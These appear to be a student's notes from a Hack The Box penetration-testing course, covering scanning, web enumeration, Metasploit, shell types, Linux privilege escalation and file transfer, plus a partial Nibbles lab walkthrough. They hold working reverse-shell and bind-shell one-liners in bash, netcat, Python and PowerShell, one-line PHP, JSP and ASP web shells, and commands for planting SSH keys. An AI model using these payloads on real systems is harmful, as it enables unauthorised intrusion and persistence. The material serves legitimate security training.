# Table of Contents
 
- [A. Common Terms](#a-common-terms)
  - [Shell](#shell)
  - [Port](#port)
  - [Web Servers](#web-servers)
- [B. Basic Tools](#b-basic-tools)
- [C. Service Scanning](#c-service-scanning)
  - [Nmap](#nmap)
    - [Nmap Parameters](#nmap-parameters)
  - [Attacking Network Services](#attacking-network-services)
    - [Banner Grabbing](#banner-grabbing)
    - [FTP](#ftp)
    - [SMB](#smb)
    - [SNMP](#snmp)
- [D. Web Enumeration](#d-web-enumeration)
  - [Gobuster](#gobuster)
    - [Directory/File Enumeration](#directoryfile-enumeration)
    - [DNS Subdomain Enumeration](#dns-subdomain-enumeration)
  - [Web Enumeration Tips](#web-enumeration-tips)
    - [Banner Grabbing / Web Server Headers](#banner-grabbing--web-server-headers)
    - [Whatweb](#whatweb)
    - [Certificates](#certificates)
    - [Robots.txt](#robotstxt)
    - [Source Code](#source-code)
- [E. Public Exploits](#e-public-exploits)
  - [Finding Public Exploits](#finding-public-exploits)
  - [Metasploit Primer](#metasploit-primer)
- [F. Types of Shells](#f-types-of-shells)
  - [Reverse Shell](#reverse-shell)
  - [Bind Shell](#bind-shell)
  - [Upgrading TTY](#upgrading-tty)
  - [Web Shell](#web-shell)
- [G. Privilege Escalation](#g-privilege-escalation)
  - [PrivEsc Checklists](#privesc-checklists)
  - [Enumeration Scripts](#enumeration-scripts)
  - [Kernel Exploits](#kernel-exploits)
  - [Vulnerable Software](#vulnerable-software)
  - [User Privileges](#user-privileges)
    - [Sudo](#sudo)
  - [Scheduled Tasks](#scheduled-tasks)
  - [Exposed Credentials](#exposed-credentials)
  - [SSH Keys](#ssh-keys)
- [H. Transferring Files](#h-transferring-files)
  - [Using wget](#using-wget)
  - [Using SCP](#using-scp)
  - [Using Base64](#using-base64)
  - [Validating File Transfers](#validating-file-transfers)
- [I. Nibbles Box](#i-nibbles-box)
  - [Enumeration](#enumeration)
  - [Web Footprinting](#web-footprinting)
  - [Initial Foothold](#initial-foothold)
  - [Privilege Escalation](#privilege-escalation)
  - [Alternative: Metasploit](#alternative-metasploit)
---
 

# A. Common Terms
## Shell
- `sh`, `bash` (enhanced version of sh), `zsh`, `tcsh`, `ksh`, `fish shell`, etc.

| Type of Shell | Explanation |
| ---- | ---- |
| Reverse Shell | Initiates a connection back to a "listener" on our attack box. |
| Bind Shell | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
| Web Shell | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |

## Port
- *TCP:* Connection-oriented, meaning that a connection between a client and a server must be established before data can be sent. The server must be in a listening state awaiting connection requests from clients. (65,535 TCP ports)
- *UDP:* Connectionless communication model. Useful when error correction/checking is either not needed or is handled by the application itself. (65,535 UDP ports)

| Port | Protocol |
| --- | --- |
| 20/21 (TCP) | FTP |
| 22 (TCP) | SSH |
| 22 (TCP) | SSH |
| 23 (TCP) | Telnet |
| 25 (TCP) | SMTP |
| 80 (TCP) | HTTP |
| 88 (TCP) | Kerberos |
| 161 (TCP/UDP) | SNMP |
| 389 (TCP/UDP) | LDAP |
| 443 (TCP) | SSL/TLS (HTTPS) |
| 445 (TCP) | SMB |
| 3389 (TCP) | RDP |

## Web Servers
- Usually run on TCP ports 80 or 443, tend to be open for public interaction and facing the internet.
- **OWASP Top 10:** Top 10 web application vulnerabilities maintained by Open Web Application Security Project.

---

# B. Basic Tools
- **SSH** 
    - Secure Shell (SSH) is a network protocol that runs on port 22 by default and provides users a secure way to access a computer remotely
    - Can be configured with password authentication or passwordless using an SSH public/private key pair.
    - Possible to read local private keys on a compromised system or add out public key to gain SSH access to a specific user.
- **Netcat**
    - `nc` is an excellent utility for interacting with TCP/UDP ports.
    - Primary usage is for connecting to shells.
    - Can be used to connect to any listening port and interact with the service running on that port. Conduct Banner Grabbing.
    - Can be used to transfer files between machines.
- **Tmux**
    - `tmux` or `Screen` are great utilities for expanding a standard Linux terminal feature by having multiple windows within one terminal.
- **Vim**
    - Used for writing code or editing text files on Linux systems.

---

# C. Service Scanning
## Nmap

```bash
selwynang@htb[/htb]$ nmap 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-25 16:07 EST
Nmap scan report for 10.129.42.253
Host is up (0.11s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds
```
- Without additional options, `nmap` will only scan the 1000 most common ports by default.
- `PORT`: Tells us if the port is TCP or UDP (TCP scan by default unless specifically requested to perform UDP scan).
- `STATE`: Open, close, or filtered (happens if a firewall is only allowing access to the ports from specific addresses).
- `SERVICE`: Tells us the service name typically mapped to the specific port number (Default scan will not tell us what is listening on that port until we instruct `nmap` to interact with the service).

### Nmap Parameters
- `-sC`: Specifies that `nmap` scripts should be used to try and obtain more detailed information.
- `-sV`: Performs version scan (fingerprint services on target system and identify service protocol, application name, and version).
- `-p-`: Scan all 65,535 TCP ports.
- `--script <script name> -p<port> <host>`: Running a specific script on a specific port.

## Attacking Network Services

### Banner Grabbing
```bash
nmap -sV --script=banner -p<port> <host>
nc -nv <host> <port>
```

### FTP
```bash
ftp -p <host>
# -p flag for passive mode
```
- FTP supports commands such as `cd` and `ls`.
- FTP allows us to download files using `get` command.

### SMB
```bash
nmap --script smb-os-discovery.nse -p445 <host>
# smb-os-discovery.nse script interacts with the SMB service to extract the reported OS version.
```
```bash
smbclient -N -L \\\\<host>
```
- SMB allows users and administrators to share folders and make them accessible remotely by other users.
- `smbclient` can enumerate and interact with SMB shares.
- `-L`: Retrieve a list of available shares on the remote host.
- `-N`: Suppresses password prompt.

```bash
smbclient -U bob \\\\<host>\\<share name>
# Attempting to connect as user Bob to access a specific share.
```

### SNMP
- SNMP (Simple Network Management Protocol) Community strings provide information and statistics about a router or device.
- Default community strings are `public` (lets us query device info) and `private` (lets us modify configuration on the device).
- In SNMP versions 1 and 2c, access is controlled using a plaintext community string, and if we know the name, we can gain access to it.

```bash
selwynang@htb[/htb]$ snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0

iso.3.6.1.2.1.1.5.0 = STRING: "gs-svcscan"

selwynang@htb[/htb]$ snmpwalk -v 2c -c private  10.129.42.253 

Timeout: No Response from 10.129.42.253
```
- `onesixtyone` can be used to brute force community string names using a dictionary file of common community strings.

```bash
selwynang@htb[/htb]$ onesixtyone -c dict.txt 10.129.42.254

Scanning 1 hosts, 51 communities
10.129.42.254 [public] Linux gs-svcscan 5.4.0-66-generic 74-Ubuntu SMP Wed Jan 27 22:54:38 UTC 2021 x86_64
```

---

# D. Web Enumeration

## Gobuster
- `ffuf` or `gobuster` can perform directory enumeration (uncover any hidden files or directories on the webserver that are not intended for public access).

### Directory/File Enumeration

```bash
selwynang@htb[/htb]$ gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/11 21:47:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wordpress (Status: 301)
===============================================================
2020/12/11 21:47:46 Finished
===============================================================
```

- `dir`: Specifies directory (and file) brute-forcing modes.
- `-u`: Specifies URL.
- `-w`: Specifies word list to enumerate.
- HTTP code `200`: Resource request is successful.
- HTTP code `301`: Being redirected, which is not a failure case.
- HTTP code `403`: Forbidden to access the resource.

### DNS Subdomain Enumeration
- Essential resources can be hosted on subdomains, such as admin panels or applications.
- Use `dns` flag to specify DNS mode to enumerate available subdomains of a given domain.

```bash
selwynang@htb[/htb]$ gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Domain:     inlanefreight.com
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/SecLists/Discovery/DNS/namelist.txt
===============================================================
2020/12/17 23:08:55 Starting gobuster
===============================================================
Found: blog.inlanefreight.com
Found: customer.inlanefreight.com
Found: my.inlanefreight.com
Found: ns1.inlanefreight.com
Found: ns2.inlanefreight.com
Found: ns3.inlanefreight.com
===============================================================
2020/12/17 23:10:34 Finished
===============================================================
```

## Web Enumeration Tips

### Banner Grabbing / Web Server Headers
- Web server headers provide a good picture of what is hosted on the web server.
- Use `curl` to retrieve server header information from the command line.

```bash
selwynang@htb[/htb]$ curl -IL https://www.inlanefreight.com

HTTP/1.1 200 OK
Date: Fri, 18 Dec 2020 22:24:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Link: <https://www.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
Link: <https://www.inlanefreight.com/>; rel=shortlink
```
- `curl -IL`: `-I` flag means send a HEAD request instead of GET, so it only fetches the response headers, `-L` flag tells curl to follow redirects.

### Whatweb
- `whatweb` can be used to extract the version of web servers, supporting frameworks, and applications.
- Can be used not only on individual IP address, but subnets too.

```bash
selwynang@htb[/htb]$ whatweb 10.10.10.121

http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]
```

### Certificates
- SSL/TLS certificates can reveal details such as email address and company names.

### Robots.txt
- Websites contain a `robots.txt` file that instructs the search engine web crawlers which resources can and cannot be accessed for indexing.
- Provides valuable information such as the location of private files and admin pages (normally shown in the `Disallow` section).

### Source Code
- Check the source code of the website for any information such as credentials.

---

# E. Public Exploits

### Finding Public Exploits
- Use `searchsploit` to search for public vulnerabilities/exploits for any application.

```bash
selwynang@htb[/htb]$ sudo apt install exploitdb -y

selwynang@htb[/htb]$ searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

### Metasploit Primer
- Metasploit Framework (MSF) contains:
    - Built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets.
    - Running reconnaissance scripts to enumerate remote hosts and compromised targets
    - Verification scripts to test the existence of a vulnerability without actually compromising the target
    - Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
    - Many post-exploitation and pivoting tools
- **Steps to use Metasploit**
    1. Start Metasploit with `msfconsole` command.
    2. Search for our target application with `search exploit` command (Eg.`search exploit eternalblue`).
    3. Use exploit by using `use <exploit>`
    4. Use `show options` command to view options (`RHOSTS` for IP of our target(s), `LHOST` for IP of our attack host).
    5. Set options with `set` (Eg. `set RHOSTS 10.10.10.40`).
    6. Use `check` to run script to check if target is indeed vulnerable to the exploit (NOTE: Not every exploit supports check function).
    7. Use `run`/`exploit` to run the exploit.

---

# F. Types of Shells

## Reverse Shell
1. Once we identify a vulnerability on the remote host that allows remote code execution, we start a `netcat` listener on our machine that listens on a specific port.

```bash
selwynang@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...

# -l: listen mode, to wait for a connection to connect to us.
# -v: verbose mode, so that we know when we receive a connection.
# -n: disable DNS resolution and connect from/to IPs, to speed up the connection.
# -p 1234: Port number netcat is listening on, and the reverse connection should be sent to. 
```

2. With the listener in place, we execute a reverse shell command that connects the remote system's shell to our `netcat` listener.
- `bash` commands on Linux compromised host to get reverse connection:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
-  `powershell` commands on Windows compromised host to get reverse connection:
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## Bind Shell
1. We will start a listening connection on port `1234` on the remote host, with IP `0.0.0.0` so that we can connect to it from anywhere.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
2. Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it via `netcat`.

```bash
selwynang@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Upgrading TTY
- Once we connect to a shell through `netcat`, we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history.
- We need to upgrade our TTY to do so.
```bash
selwynang@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```
- After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```bash
www-data@remotehost$ ^Z

[1] Stopped                 nc -lvnp 1234
selwynang@htb[/htb]$ stty raw -echo
selwynang@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```
- Once we hit `fg`, it will bring back our `netcat` shell to the foreground.
- We can hit enter again to get back to our shell or input reset and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.
- We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:
```bash
selwynang@htb[/htb]$ echo $TERM

xterm-256color

selwynang@htb[/htb]$ stty size

67 318
```
- Now that we have our variables, we can go back to our `netcat` shell and use the following commands to correct them:
```bash
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

## Web Shell
- A web shell is typically a web script (PHP or ASPX) that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.
- **Benefits:**
    - Bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using.
    - If the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

1. **Writing a Web Shell**: We need to write our web shell that would talk our command through a `GET` request, execute it, and print its output back. The following are some common short web shell scripts for common web languages:
```PHP
<?php system($_REQUEST["cmd"]); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd") %>
```
2. **Uploading a Web Shell**: 
- We need to place our web shell into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file and upload it, and then access our uploaded file to execute commands.

| Web Server | Default Webroot |
| --- | --- |
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\inetpub\wwwroot\ |
| `XAMPP` | C:\xampp\htdocs\ |

- We can check these directories to see which webroot is use, and then use `echo` to write out our web shell.

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

3. **Accessing Web Shell**
- We can access the web shell through the browser by visiting the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command. (Eg. `http://SERVER_IP:PORT/shell.php?cmd=id`)
- We can also access the web shell by using `curl`.
```bash
selwynang@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# G. Privilege Escalation
## PrivEsc Checklists
- Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level.
- [HackTricks](https://book.hacktricks.xyz/): Has an excellent checklist for both Linux and Windows local privilege escalation.
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings): Has checklists for both Linux and Windows.

## Enumeration Scripts
- **Common Linux enumeration scripts:** [LinEnum](https://github.com/rebootuser/LinEnum.git) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- **Common Windows enumeration scripts:** [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS)
- [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite): Well maintained to remain up to date and includes scripts for enumerating both Linux and Windows (LinPEAS and WinPEAS)

## Kernel Exploits
- Whenever we encounter a server running an old operating system, we should start by looking for potential kernel vulnerabilities that may exist (Eg. Linux version `3.9.0-73-generic` is vulnerable to `CVE-2016-5195`, otherwise known as `DirtyCow`).

## Vulnerable Software
- We can use `dpkg -l` command on Linux or look at `C:\Program Files` in Windows to see what software is installed on the system, and then we should look for public exploits for any installed software containing unpatched vulnerabilities.

## User Privileges
Another critical aspect to look for after gaining access to a server is the privileges available to the user we have access to.

### Sudo
- `sudo` command in Linux allows a user to execute commands as a different user.
- We can check what `sudo` privileges we have with the `sudo -l` command.
```bash
selwynang@htb[/htb]$ sudo -l

[sudo] password for user1:
...SNIP...

User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL
```
- We can use the `su` command with `sudo` to switch to the root user.
```bash
selwynang@htb[/htb]$ sudo su -

[sudo] password for user1:
whoami
root
```
- There are certain occasions where we may be allowed to execute certain applications, or all applications, without having to provide a password:
```bash
selwynang@htb[/htb]$ sudo -l

    (user : user) NOPASSWD: /bin/echo

# The NOPASSWD entry shows that the /bin/echo command can be executed without a password. This would be useful if we gained access to the server through a vulnerability and did not have the user's password. As it says user, we can run sudo as that user and not as root. To do so, we can specify the user with -u user:

selwynang@htb[/htb]$ sudo -u user /bin/echo Hello World!

    Hello World!

```
- Once we find a particular application we can run with `sudo`, we can look for ways to exploit it to get a shell as the root user. [GTFOBins](https://gtfobins.github.io/) contains a list of commands and how they can be exploited through `sudo`. We can search for the application we have `sudo` privilege over, and if it exists, it may tell us the exact command we should execute to gain root access using the `sudo` privilege we have.
-[LOLBAS](https://lolbas-project.github.io/#) also contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user.

## Scheduled Tasks
- In both Linux and Windows, there are methods to have scripts run at specific intervals to carry out a task.
- There are usually two ways to take advantage of scheduled tasks (Windows) or cron jobs (Linux) to escalate our privileges:
    1. Add new scheduled tasks/cron jobs
    2. Trick them to execute a malicious software
- In Linux, there are specific directories that we may be able to utilize to add new cron jobs if we have the write permissions over them. These include:
    1. `/etc/crontab`
    2. `/etc/cron.d`
    3. `/var/spool/cron/crontabs/root`
- If we can write to a directory called by a cron job, we can write a bash script with a reverse shell command, which should send us a reverse shell when executed.

## Exposed Credentials
- We can look for files we can read and see if they contain any exposed credentials. This is very common with `configuration` files, `log` files, and user history files (`bash_history` in Linux and `PSReadLine` in Windows). The enumeration scripts we discussed at the beginning usually look for potential passwords in files and provide them to us.

## SSH Keys
- If we have read access over the `.ssh` directory for a specific user, we may read their private ssh keys found in `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`, and use it to log in to the server. 
- If we can read the `/root/.ssh/` directory and can read the `id_rsa` file, we can copy it to our machine and use the `-i` flag to log in with it:
```bash
selwynang@htb[/htb]$ vim id_rsa
selwynang@htb[/htb]$ chmod 600 id_rsa
selwynang@htb[/htb]$ ssh root@10.10.10.10 -i id_rsa

root@10.10.10.10#
```
- If we find ourselves with write access to a user's `/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. We must first create a new key with `ssh-keygen` and the `-f` flag to specify the output file. This will give us 2 files (`key` which we will use with `ssh -i` and `key.pub` which we will copy to the remote machine). 

```bash
selwynang@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```
```bash
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
```bash
selwynang@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost#
```

# H. Transferring Files
During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.

## Using wget
1. Go into the directory that contains a the file we need to transfer and run a Python HTTP server on our machine:
```bash
selwynang@htb[/htb]$ cd /tmp
selwynang@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

2. We can download the file on the remote host that we have code execution on via `wget` or `curl`:
```bash
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```
```bash
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

## Using SCP
We can use `scp` to transfer files, granted we have obtained ssh credentials on the remote host.
```bash
selwynang@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

## Using Base64
In some cases, we may not be able to transfer the file (remote host may have firewall protections that prevent us from downloading a file from our machine). We can use `base64` to encode the file into base64 format, and then we past the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can:
```bash
# Base64 encode the file
selwynang@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```
```bash
# Base64 decode the string, and pipe the output into a file
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```
## Validating File Transfers
```bash
# When we run the file command on the shell file, it says that it is an ELF binary, meaning that we successfully transferred it

user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```
```bash
# To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. Both files on the remote host and our machine have the same md5 hash, which means that the file was transferred correctly

selwynang@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell

user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

# I. Nibbles Box

## Enumeration
```bash
─[eu-academy-5]─[10.10.15.40]─[htb-ac-2300483@htb-lnut76qmij]─[~]
└──╼ [★]$ nmap 10.129.200.170
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-18 12:44 EDT
Nmap scan report for 10.129.200.170
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.11 seconds
┌─[eu-academy-5]─[10.10.15.40]─[htb-ac-2300483@htb-lnut76qmij]─[~]
└──╼ [★]$ nmap -p 22,80 -sV 10.129.200.170
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-18 12:45 EDT
Nmap scan report for 10.129.200.170
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

## Web Footprinting
Use `whatweb` to check the details of the web server running on port 80:
```bash
┌─[eu-academy-5]─[10.10.15.40]─[htb-ac-2300483@htb-7sozjzsjcg]─[~]
└──╼ [★]$ whatweb 10.129.200.170
http://10.129.200.170 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.200.170]
```
No further new details are revealed.

Let's `curl` the webserver to see what details there are:
```bash
┌─[eu-academy-5]─[10.10.15.40]─[htb-ac-2300483@htb-7sozjzsjcg]─[~]
└──╼ [★]$ curl 10.129.200.170
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
A `/nibbleblog/` directory exists. Upon visiting the page, nothing interesting is shown.



Let's do some directory/file enumeration on both the root and nibbleblog directories of the web server.

```bash
┌─[eu-academy-5]─[10.10.15.40]─[htb-ac-2300483@htb-7sozjzsjcg]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.200.170/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess            (Status: 403) [Size: 298]
/index.html           (Status: 200) [Size: 93]
/server-status        (Status: 403) [Size: 302]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================

```

```bash
┌─[eu-academy-5]─[10.10.15.40]─[htb-ac-2300483@htb-7sozjzsjcg]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.200.170/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 309]
/.hta                 (Status: 403) [Size: 304]
/.htpasswd            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

There are a few pages of interest:
- `/nibbleblog/README`
- `/nibbleblog/admin`
- `/nibbleblog/admin.php`
- `/nibbleblog/content`
- `/nibbleblog/index.php`
- `/nibbleblog/languages`
- `/nibbleblog/plugins`
- `/nibbleblog/themes`

Upon visiting `/nibbleblog/README`, it shows a page:

